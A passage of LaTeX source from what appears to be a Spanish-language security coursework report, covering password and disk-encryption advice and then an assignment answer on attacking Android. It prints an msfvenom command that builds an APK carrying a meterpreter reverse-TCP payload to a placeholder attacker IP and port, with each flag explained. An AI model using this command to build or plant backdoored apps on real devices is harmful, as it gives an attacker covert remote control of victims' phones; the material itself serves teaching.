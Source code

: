 Principalmente el uso de contraseñas seguras (compuestas tanto por caracteres mayúsculas y minúsculas, como por número y símbolos), también encriptación para las particiones del disco duro de la PC personal (partición encriptada con \emph{LUKS}).

\subsection{Acciones para la concientización}

Una acción de concientización interesante podría ser la demostración de qué tan fácil puede llegar a ser descubrir una contraseña habitual, mediante el uso de diccionarios y/o fuerza bruta.

\section{Ataques}

\subsection{Android}

\emph{Explique el procedimiento para la ejecución del componente meterpreter en un dispositivo/computadora remoto/a a través de msfvenom} 

Para poder ejecutar una aplicación con un \emph{shell reverso \footnote{Se establece una conexión entre dos computadoras, la que inicia la conexión dirige una terminal interactiva hacía el destino \autocite{ReverseShell}}} en un dispositivo Android, primero se debe crear un archivo \emph{.apk} (archivo instalable en un Android) que contenga el código necesario para establecer la conexión con otra computadora. Para ello se usa el programa \texttt{msfvenom} de la siguiente manera:

\begin{lstlisting}
    msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PUERTO_DE_ESCUCHA> R> ~/app.apk
\end{lstlisting}

\begin{itemize}
    \item \texttt{-p android/meterpreter/reverse\_tcp}: con este parámetro le indicamos a \texttt{msfvenom} que el \emph{payload} (código adicional) que queremos inyectar en la aplicación \emph{app.apk} realice una conexión TCP con la IP <IP> al puerto <PUERTO\_DE\_ESCUCHA>  
    \item \texttt{LHOST}: dirección IP a la cual conectarse
    \item \texttt{LPORT}: puerto al cual establecer la conexión 
\end{itemize}

